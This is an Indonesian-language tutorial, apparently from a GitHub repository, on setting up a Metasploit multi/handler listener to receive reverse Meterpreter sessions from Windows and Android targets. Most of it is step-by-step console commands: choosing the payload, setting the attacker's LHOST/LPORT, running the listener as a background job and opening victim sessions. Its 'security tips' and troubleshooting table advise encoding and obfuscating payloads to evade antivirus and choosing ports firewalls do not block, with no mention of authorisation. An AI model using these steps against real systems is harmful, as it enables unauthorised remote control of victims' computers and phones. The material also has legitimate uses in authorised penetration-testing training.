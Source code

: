 # Membuat Listener dengan `multi/handler`

## A. Apa itu `exploit/multi/handler`?

`multi/handler` adalah modul di Metasploit yang berfungsi sebagai listener untuk menerima koneksi balik (reverse connection) dari payload yang sudah ditanamkan ke target.

Modul ini tidak mengeksploitasi, tapi hanya mendengarkan dan menangani koneksi masuk dari payload yang berhasil dijalankan di sistem korban.

## B. Langkah-Langkah Membuat Listener

### 1. Jalankan Metasploit Framework

```
msfconsole
```

### 2. Pilih Modul multi/handler

```
use exploit/multi/handler
```

### 3. Tentukan Payload yang Sesuai

Contoh jika payload yang dikirim adalah `windows/meterpreter/reverse_tcp`:

```
set PAYLOAD windows/meterpreter/reverse_tcp

```

### 4. Atur IP dan Port Listener

```
set LHOST 192.168.1.100
set LPORT 4444
```

- **LHOST**: IP attacker (listener)
- **LPORT**: Port tempat menerima koneksi

### 5. (Opsional) Atur Auto-Run Script setelah koneksi

```
set AutoRunScript post/windows/manage/migrate
```

### 6. Jalankan Listener

```
run
```

Atau bisa juga:

```
exploit
```

## C. Contoh Lengkap: Listener untuk Payload Windows

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

## D. Contoh Listener untuk Payload Android

```
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 1234
exploit
```

## E. Mode Background Listener

Kalau ingin listener tetap berjalan di background:

```
exploit -j
```

- `-j`: Jalankan sebagai job (background)
- `-z`: Tidak membuka sesi interaktif secara langsung

## F. Melihat Job Listener Aktif

```
jobs
```

## G. Interaksi dengan Session Meterpreter

Saat target berhasil terhubung, session akan muncul:

```
sessions
```

Untuk masuk ke sesi:

```
sessions -i 1
```

## H. Tips Keamanan

- Gunakan IP yang benar-benar bisa diakses korban (public IP/VPN/local sesuai skenario).
- Jangan gunakan port yang umum terblokir firewall.
- Gunakan encoding dan obfuscation pada payload untuk menghindari AV.

## I. Troubleshooting

| Masalah | Penyebab Umum | Solusi |
|:--:|:--:|:--:|
| Tidak ada koneksi masuk | IP/Port salah | Pastikan LHOST/LPORT sesuai|
| Payload terdeteksi AV | Payload tidak diencode | Gunakan -e encoder di msfvenom |
| Listener tidak merespons | Port diblokir | Ganti port atau periksa firewall |
